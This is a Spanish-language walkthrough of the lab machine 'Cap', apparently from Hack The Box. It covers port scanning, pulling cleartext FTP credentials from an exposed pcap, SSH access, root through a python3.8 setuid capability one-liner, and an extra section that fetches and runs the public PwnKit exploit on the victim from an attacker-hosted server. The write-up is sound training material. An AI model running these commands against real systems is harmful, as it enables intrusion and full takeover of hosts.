






# Máquina Cap

#### OS: Linux
#### Tier: Easy
#### Released on: 5/6/2021
#### IP de ejemplo: 10.129.171.243

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 10.129.171.243
```
```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

```
tres puertos abiertos: 21/FTP, 22/SSH y 80/HTTP. Vamos a lanzar los scripts básicos de nmap con el argumento -sC y tratemos de detectar la versión para cada servicio con -sV 
> recordad que se pueden unir en uno solo: -sCV

```
nmap -sCV -p21,22,80 -T4 10.129.171.243
```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 10 Nov 2026 15:53:00 GMT
<SNIP>

```
FTP no tiene el anonymous login permitido, por lo que llevemos nuesto reconocimiento a la web en el puerto 80 por ahora. Vamos a lanzar whatweb para ver si detecta tecnologías o algo interesante antes de entrar por el navegador

`whatweb 10.129.171.243`
```
http://10.129.171.243 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.129.171.243], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```
nada del otro mundo. Entremos desde el navegador a http://10.129.171.243



vemos un "panel de seguridad", parece que estamos ya autenticados como `Nathan`. Curioso.
en la parte izquierda tenemos distintas opciones, que al pulsar parecen ser el output de los comandos `ip a` para la página /ip y `netstat`para la página /netstat. 
Al pulsar en el superior, (Security Snapshot (5 Second PCAP + Analysis)), la web tarda 5 segundos en responder, y nos lleva a `/data/1`, donde podemos ver distintas referencias a paquetes, como si se hubiese ejcutado tcpdump o una herramienta similar durante 5 segundos. Sin embargo, no podemos ver ningún paquete.



Lo que sí podemos hacer es descargar la captura, que se guarda como 1.pcap. Podemos comprobar con `Wireshark` que efectivamente está vacía.
Viendo como funciona el endpoint, es tentador probar otros números. Por ejemplo, 0. Así pues, la URL pasaría a verse así:

`http://10.129.171.243/data/0`

Aquí sí hay data, vamos a descargarla y a analizarla con Wireshark (`wireshark /ruta/a/0.pcap`)



podemos ver un gran número de paquetes, vamos a filtrar por aquellos transmitidos via HTTP 



nada por aquí. Probemos FTP, pues era otro puerto abierto



algo llama la atención: se está tramitando una petición de login, con credenciales en texto claro



`Buck3tH4TF0RM3!`

## Initial Infiltration

con estas credenciales, el usuario Nathan y el puerto 22 abierto, lo más normal es probar a entrar via SSH a la máquina víctima. 

```
ssh nathan@10.129.171.243
```
cuando pregunten por credenciales, pegamos las obtenidas de la captura .pcap

```
nathan@cap:~$ whoami;hostname -I
nathan
10.129.171.243 dead:beef::a0de:adff:fe72:7d64 
```
Estamos dentro de la máquina. Podemos encontrar la user.txt en `/home/nathan/user.txt`

## Privilege Escalation
Para tratar de escalar privilegios vamos a empezar listando privilegios a nivel de sudoers para nuestro usuario con `sudo -l` y veamos si estamos en algún grupo como `docker`, `lxd` o alguno custom
```
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.

nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```
no tenemos privilegios a nivel de sudoers ni estamos en ningún grupo especial. Nuestro siguiente paso es enumerar archivos que tengan el bit SUID. Para ello usamos el siguiente comando:
```
find / -perm -4000 2>/dev/null
```
entre el output estándar vemos /usr/bin/pkexec. Al realizar un ls -la /usr/bin/pkexec vemos que su fecha entra en el rango vulnerable del `pwnkit (CVE-2021-4034)`, pero dado que esta no es la vía intencionada tratemos de encontrar otra forma de conseguir escalar privilegios. Por ejemplo, listar capabilities
```
getcap -r / 2>/dev/null
```
inmediatamente salta a la vista el siguiente resultado:
`/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip`
este es uno de los vectores más conocidos de escalada de privilegios. Esta capability nos permite cambiar nuestro UID a 0 (root) via Python3.8, y spawnearnos una shell. Podemos encontrar más información aquí:
https://gtfobins.org/gtfobins/python/ 
más específicamente en la parte de `capabilities`
```
This function is performed bypassing the usual kernel permission checks if the executable has certain capabilities set.

The following capabilities are needed: CAP_SETUID.

python -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
```
nosotros usaremos un comando parecido, adaptándolo a python3.8 y que nos dará una bash en lugar de una sh:

```
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# 
```

hemos escalado privilegios exitosamente. Podemos leer la flag de root en `/root/root.txt`


## Extra: pwnkit (CVE-2021-4034)

para ejecutar la escalada de privilegios explotando el CVE-2021-4034, tan solo debemos hacer lo siguiente:

1. En nuestra máquina atacante (ej: 10.10.14.129)
   descargamos el ejecutable del repositorio de GitHub:
   `curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o pwnkit`
   y lo servimos a través de python
   `python3 -m http.server 8000`
2. En la máquina víctima
descargamos el archivo de nuestro equipo, le damos permiso de ejecución y lo ejecutamos
```
nathan@cap:~$ wget http://10.10.14.129:8000/pwnkit 
--2026-11-10 16:36:33--  http://10.10.14.129:8000/pwnkit
Connecting to 10.10.14.129:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2564602 (2.4M) [application/octet-stream]
Saving to: ‘pwnkit’

pwnkit                     100%[=====================================>]   2.45M   208KB/s    in 14s     

2026-11-10 16:36:48 (177 KB/s) - ‘pwnkit’ saved [2564602/2564602]

nathan@cap:~$ chmod +x pwnkit 
nathan@cap:~$ ./pwnkit 
Pwning....
[+] Beginning exploit...
# whoami
root
```


